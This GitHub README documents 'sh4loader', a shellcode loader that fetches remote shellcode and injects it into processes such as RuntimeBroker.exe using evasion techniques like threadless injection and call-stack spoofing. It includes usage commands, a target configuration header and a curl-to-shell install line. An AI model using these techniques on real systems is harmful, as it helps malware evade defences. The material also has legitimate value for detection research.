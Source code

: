 # sh4loader

<p align="center">
<img src="https://raw.githubusercontent.com/Sh4N4C1/gitbook/main/images/sh4loader.png" alt="sh4loader">
</p>

## ✨ Function

- **Indirect Syscall**: sh4loader use `indirect` syscall.
- **Caro Kann**: Sh4lib use [Caro-Kann](https://github.com/S3cur3Th1sSh1t/Caro-Kann) injection to evade kernel triggered memory scans.
- **Runtime Decrypt Shellcode**: sh4loader will bruteforce shellcode decryption key at runtime.
- **Threadless injection**: sh4loader use threadless injection.
- **CallstackSpoofing**: sh4loader use [CallstackSpoofing](https://github.com/pard0p/CallstackSpoofingPOC)

## Injection Method

- Local Common Injection
- Callstack spoof common Injection
- Caro-Kann Callstack spoof common Injection
- Caro-Kann threadless Injection
- Caro-Kann callstack spoff threadless Injection

## Install

```bash
git clone https://github.com/sh4n4c1/sh4loader.git
cd sh4loader
cargo build --release
./target/release/sh4loader --help
```

if build failed, we need update rustc

```bash
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh # update rustc
```

## Usage

```bash
sh4loader <injection-method> --shellcode-url <url> --output-path <project_output> --shellcode-path <shellcode_path>
```

## Detail

### Caro-Kann Callstack spoof threadless Injection

```bash
sh4loader kann-threadless-stack --shellcode-url <url> --output-path <project_output> --shellcode-path <shellcode_path>
```

This implant will find two memory, one for the `xor-encrypted main shellcode`, and one for the `Caro-Kann shellcode`. In threadless injection, it will first hook the target function, and then jump to the fixed shellcode to save the function state and then jump Go to Caro-Kann shellcode, Caro-Kann will help us decrypt and execute the main shellcode

```
  TARGET PROCESS
+-----------------+
|  [function A]   |------+ hooked function called and jump to our <save and jump shellcode> (1)
|    <hooked>     |      |
+-----------------+      |
|   MEMORY HOLE   |      |
| <save and jump> |<-----+ the <save and jump shellcode> will save hooked function state and jump to Caro (2)
|   <Caro-Kann>   |------+ <Caro-Kann shellcode> will sleep and decrypt <main shellcode> (3)
+-----------------+      |
|  [function B]   |      |
+-----------------+      |
|   MEMORY HOLE   |      |
| <main shellcode>|<-----+ <Caro-Kann shellcode> jump to <main shellcode> (4)
+-----------------+
```

1. During the execution of the implant, shellcode is patched to save the jump address.
2. [Callstack spoof](https://github.com/pard0p/CallstackSpoofingPOC) means that NtAPI will be called using the TpReleaseWork proxy.
3. The default function A and function B are `NtWaitForMultipleObjects` and `NtCreateWnfStateName` respectively. The default process is `RuntimeBroker`,because after using API Monitor I found that the RuntimeBroker process seems to call NtWaitForMultipleObjects every other time, and the NtCreateWnfStateName function is used to store the main shellcode.If you want to modify these default functions and processes, you can modify `include/KannThreadStackInj.h` in the implant project directory and Recompile with command `make KannThreadlessStackInj`

```c
// include/KannThreadStackInj.h

#define TARGET_PROCESS "RuntimeBroker.exe"      // Target process
#define TARGET_FUNC_TWO "NtCreateWnfStateName"  // Function B
#define TARGET_DLL "ntdll.dll"                  // Dll export Function A/B
#define TARGET_FUNC "NtWaitForMultipleObjects"  // Function A
```

### Caro-Kann threadless Injection

```bash
sh4loader kann-threadless-stack --shellcode-url <url> --output-path <project_output> --shellcode-path <shellcode_path>
```

Same as above, but using indirect syscalls instead of proxy calls.

### Caro-Kann Callstack spoof common Injection

```bash
sh4loader kann-spoofstacks --shellcode-url <url> --output-path <project_output> --shellcode-path <shellcode_path>
```

This Injection Method will use TpRelease proxy call `NtAllocateVirtualMemory` + `NtWriteVirtualMemory` + `NtCreateThreadEx` to inject Caro-Kann shellcode and encrypted main shellcode into the local process.

### Callstack spoof common Injection

```bash
sh4loader spoofstacks --shellcode-url <url> --output-path <project_output> --shellcode-path <shellcode_path>
```

This Injection Method will use TpRelease proxy call `NtAllocateVirtualMemory` + `NtWriteVirtualMemory` + `NtCreateThreadEx` to inject main shellcode into the local process.

### Local Common Injection

```bash
sh4loader common --shellcode-url <url> --output-path <project_output> --shellcode-path <shellcode_path>
```

This Injection Method just use indirect syscalls inject main shellcode into the local process.

## Resources

- https://github.com/pard0p/CallstackSpoofingPOC
- https://github.com/CCob/ThreadlessInject
- https://github.com/S3cur3Th1sSh1t/Caro-Kann
- https://github.com/caueb/ThreadlessStompingKann
- https://0xdarkvortex.dev/hiding-in-plainsight/
- https://maldevacademy.com/
- https://www.vulnlab.com/

This is my first time writing a loader.I'm not some sort of expert on malware development, C, C++.I will be making a lot of mistakes,I hope that my coding skills get better and better

Obviously, the stuff in this repository is explicitly for educational purposes.
